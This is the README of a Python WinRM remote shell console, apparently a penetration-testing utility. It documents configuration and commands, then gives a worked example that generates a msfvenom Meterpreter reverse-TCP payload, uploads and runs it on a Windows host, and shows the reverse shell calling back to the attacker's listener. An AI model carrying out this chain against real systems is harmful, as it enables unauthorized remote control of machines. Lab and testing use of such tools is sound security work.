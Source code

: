 # PyShellRM

## Configuration

All configuration options are defined in the Protocol object.

1. Endpoint: The WinRM webservice endpoint
    * `http://server.com`

2. Transport: Transport type
    *  \[`plaintext`, `kerberos`, `ssl`, `ntlm`, `credssp`]

3. Username: The remote user's username
    *  `domain\user`

4. Password: The remote user's password
    *  `hunter2`

5. Server Cert Validation: Whether server certificate should be validated
    *  \[`validate`, `ignore`]

```Python
p = winrm.protocol.Protocol(
    endpoint='',
    transport='',
    username=r'',
    password='',
    server_cert_validation=''
)
```

Example:

```Python
p = winrm.protocol.Protocol(
    endpoint='http://example.com:5985/wsman',
    transport='ntlm',
    username=r'Administrator',
    password='hunter2',
    server_cert_validation='ignore'
)
```

## Commands

1. connect
2. list                                  
3. set
4. unset
5. upload
6. shell
7. close
8. exit/quit

### Connect

Connect uses the defined Protocol object to attempt a WinRM connection.

Example:

```
pyshellrm:~$ connect
[*] Connecting to http://10.10.10.1:5985/wsman
[+] Connected to http://10.10.10.1:5985/wsman
```

### List

Lists the current connect shells.

Example:

```
pyshellrm:~$ list
938891EA-A825-4871-864C-C5F58A3EA135
```

### Set

Sets the current shell.

Example:

```
pyshellrm:~$ set 938891EA-A825-4871-864C-C5F58A3EA135
Current Shell: 938891EA-A825-4871-864C-C5F58A3EA135
```

### Unset

Unsets the current shell.

Example:

```
pyshellrm:~$ unset
```

### Upload

Uploads a file from `local_path` to `remote_path`.

Example:

```
pyshellrm:~$ upload /home/local/shell.exe "C:\Users\remote\shell.exe"
[*] Uploading file /home/local/shell.exe to C:\Users\remote\shell.exe
Sending chunk [0/14]
Sending chunk [1/14]
...
Sending chunk [13/14]
Sending chunk [14/14]
```

### Shell

Runs commands in a Powershell prompt. Press ctrl+c to exit.

Example:

```
pyshellrm:~$ shell
PS> whoami
[+] remoteserver\administrator
```

### Close

Closes the connection to the current shell.

### Exit/Quit

Exits PyShellRM.

## Example

First we'll generate an msfvenom payload.

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=9999 -f exe > shell.exe
```

Next we'll configure our Protocol.

```Python
p = winrm.protocol.Protocol(
    endpoint='http://example.com:5985/wsman',
    transport='ntlm',
    username=r'Administrator',
    password='hunter2',
    server_cert_validation='ignore'
)
```

Finally, we can launch the PyShellRM console and upload our reverse shell.

```
pyshellrm:~$ connect
[*] Connecting to http://10.10.10.1:5985/wsman
[+] Connected to http://10.10.10.1:5985/wsman
pyshellrm:~$ set 85CB12CA-F0DB-468B-886B-2E4064C46727
Current Shell: 85CB12CA-F0DB-468B-886B-2E4064C46727
pyshellrm:~$ upload shell.exe "C:\Users\Administrator\shell.exe"
[*] Uploading file shell.exe to C:\Users\Administrator\shell.exe
Sending chunk [0/42]
Sending chunk [1/42]
...
Sending chunk [41/42]
Sending chunk [42/42]
pyshellrm:~$ shell
PS> ls
[+] 

    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        4/21/2019  11:08 AM                3D Objects
d-r---        4/21/2019  11:08 AM                Contacts
d-r---        4/22/2019   9:05 AM                Desktop
d-r---        4/22/2019   8:13 AM                Documents
d-r---        4/21/2019  11:08 AM                Downloads
d-r---        4/21/2019  11:08 AM                Favorites
d-r---        4/21/2019  11:08 AM                Links
d-r---        4/21/2019  11:08 AM                Music
d-r---        4/21/2019  11:08 AM                Pictures
d-r---        4/21/2019  11:08 AM                Saved Games
d-r---        4/21/2019  11:08 AM                Searches
d-r---        4/21/2019  11:08 AM                Videos
-a----        8/11/2019   1:00 PM          73802 shell.exe

PS> ./shell.exe
```

Callback received!

```
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.14.2
lport => 9999
[*] Started reverse TCP handler on 10.10.14.2:9999 
[*] Sending stage (179779 bytes) to 10.10.10.1
[*] Meterpreter session 1 opened (10.10.14.2:9999 -> 10.10.10.1:49692) at 1970-01-01 00:00:00 0000

meterpreter > getuid
Server username: REMOTESERVER\Administrator
```
